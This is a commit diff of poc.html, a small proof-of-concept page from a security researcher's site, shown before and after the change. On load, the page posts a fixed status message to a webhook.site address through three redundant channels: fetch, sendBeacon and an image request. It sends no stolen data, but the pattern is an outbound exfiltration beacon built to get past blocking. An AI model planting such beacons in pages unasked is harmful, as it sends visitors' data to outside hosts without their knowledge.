

Before and after one commit to analisprogram17-pixel/jobs, a plain HTML site: page poc.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-904 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update poc.html

```diff
--- a/poc.html
+++ b/poc.html
@@ -1,39 +1,31 @@
 <!DOCTYPE html>
 <html>
-<head><title>Audit System - Firman Sahidin</title></head>
-<body style="background:#000; color:#0f0; font-family:monospace; padding:20px;">
-    <h1>[ FIRMAN SAHIDIN - SECURITY AUDIT ]</h1>
-    <h2 id="status">STATUS: INITIALIZING...</h2>
-
+<head><title>Final Bridge Test - Firman Sahidin</title></head>
+<body style="background:#111; color:#0f0; font-family:monospace; padding:40px; text-align:center;">
+    <h1 id="status">INITIATING SIGNAL...</h1>
     <script>
-        // URL WEBHOOK MANG FIRMAN
         const WEBHOOK = 'https://webhook.site/9326deec-1e36-4aa3-8945-3efe41a641e5';
 
-        async function kirimData() {
+        async function trigger() {
+            const data = JSON.stringify({
+                status: "BRIDGE_SUCCESS",
+                researcher: "Firman Sahidin",
+                note: "Jalur kabel aman, Mang!"
+            });
+
             try {
-                const payload = JSON.stringify({
-                    status: "SUCCESS_CONNECTED",
-                    researcher: "Firman Sahidin",
-                    msg: "Jalur Aman Mang!"
-                });
+                // Triple-Shoot
+                fetch(WEBHOOK, { method: 'POST', mode: 'no-cors', body: data });
+                navigator.sendBeacon(WEBHOOK, data);
+                const img = new Image();
+                img.src = WEBHOOK + "?log=IMG_BEACON_ACTIVE";
 
-                // Jalur 1: Fetch
-                fetch(WEBHOOK, { method: 'POST', mode: 'no-cors', body: payload });
-
-                // Jalur 2: Beacon
-                navigator.sendBeacon(WEBHOOK, payload);
-
-                // Jalur 3: Image (Paling Ampuh mun diblokir)
-                const img = new Image();
-                img.src = WEBHOOK + "?data=TEST_IMAGE_BONE";
-
-                document.getElementById('status').innerText = "STATUS: ✅ SIGNAL SENT TO WEBHOOK!";
+                document.getElementById('status').innerText = "✅ SIGNAL SENT! CHECK WEBHOOK!";
             } catch (e) {
-                document.getElementById('status').innerText = "STATUS: ❌ ERROR: " + e.message;
+                document.getElementById('status').innerText = "❌ ERROR: " + e.message;
             }
         }
-
-        window.onload = kirimData;
+        window.onload = trigger;
     </script>
 </body>
 </html>
```
